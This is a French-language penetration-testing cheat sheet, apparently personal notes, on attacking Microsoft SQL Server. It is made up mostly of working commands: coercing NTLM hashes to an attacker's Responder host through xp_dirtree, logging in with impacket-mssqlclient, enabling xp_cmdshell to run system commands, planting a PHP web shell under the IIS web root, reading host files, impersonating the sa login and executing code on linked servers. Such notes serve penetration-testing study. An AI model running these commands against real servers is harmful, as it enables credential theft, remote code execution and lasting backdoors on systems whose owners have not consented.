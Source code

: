 **Intégré** avec l'écosystème Windows
Protocole Tabular Data Stream (TDS)

# Authentification
Windows authentication mode: utilise les utilisateurs et groupes Windows marquez sûr
Mixed mode: Comme WAM mais a aussi des usagers locaux au serveur SQL

# Obtention du hash d'une compte
Utilise un hash comme SMB. Possible de créer une connexion SMB avec **xp_subdirs** ou **xp_dirtree**. Utiliser Responder comme serveur
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
EXEC master..xp_dirtree '\\10.10.110.17\share\'
EXEC master..xp_subdirs '\\10.10.110.17\share\'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Info système
| info | commande |
| --- | --- |
| Version| ```SELECT @@version;``` |
| Bases de données | 	```SELECT name FROM sys.databases;``` | 
| Tables d'une base de données |  	```SELECT * FROM [nom_bd].information_schema.tables;``` | 

# Outils
## SQLCMD
Outil ligne de commandes ou gestion à distance
## impacket-mssqlclient
implémente TDS, connection à distance.
Utiliser -windows-auth pour forcer NTLM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Bases de données par défaut
| Default System Database |	Description |
| --- | --- |
| master |	Tracks all system information for an SQL server instance |
| model | 		Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database | 
| msdb 	| 	The SQL Server Agent uses this database to schedule jobs & alerts | 
| tempdb | 	Stores temporary objects |  
| resource |  	Read-only database containing system objects included with SQL server | 
	
# Exécution de code
xp_cmdshell envoi du code au shell sous-jacent
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SQL> EXECUTE xp_cmdshell 'whoami';
output
--------------------------------------------------------------------------------------------
nt service\mssql$sqlexpress
NULL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Écriture de fichiers
besoin d'être admin et activer Ole Automation Procedure

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Lecture de fichiers
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Usurpation d'utilisateurs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ sql
--Voir qui on peut usurper
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
--Voir usager courant et rôle
SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
--Usurper (faire dans BD master puisque tout le monde y a accès)
EXECUTE AS LOGIN = 'sa' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Serveurs liés
Peut exécuter du code sur un autre serveur, distant ou pas. Note usager pourrais avoir des droits de plus dessus.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ sql
--découverte
SELECT srvname, isremote FROM sysservers
--exécution de code (obtention des droits)
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
